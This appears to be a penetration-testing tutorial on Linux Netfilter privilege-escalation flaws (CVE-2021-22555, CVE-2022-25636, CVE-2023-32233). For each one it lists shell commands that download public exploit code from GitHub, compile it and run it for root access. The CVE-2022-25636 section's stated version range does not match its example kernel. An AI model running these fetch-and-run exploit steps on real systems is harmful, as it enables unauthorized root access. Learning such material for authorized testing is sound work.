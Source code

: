 `Netfilter` is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules.

In 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)), 2022 ([CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)), and also in 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)), several vulnerabilities were found that could lead to privilege escalation.

#### CVE-2021-22555

Vulnerable kernel versions: 2.6 - 5.11

```shell
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

```bash
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c

gcc -m32 -static exploit.c -o exploit
./exploit
```

#### CVE-2022-25636
[CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/) and affects Linux kernel 5.4 through 5.6.10. This is `net/netfilter/nf_dup_netdev.c`, which can grant root privileges to local users due to heap out-of-bounds write
```bash
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```

```bash
git clone https://github.com/Bonfee/CVE-2022-25636.git

cd CVE-2022-25636
make
./exploit
```

#### CVE-2023-32233
This vulnerability exploits the so called `anonymous sets` in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`.
```bash
git clone https://github.com/Liuk3r/CVE-2023-32233

cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```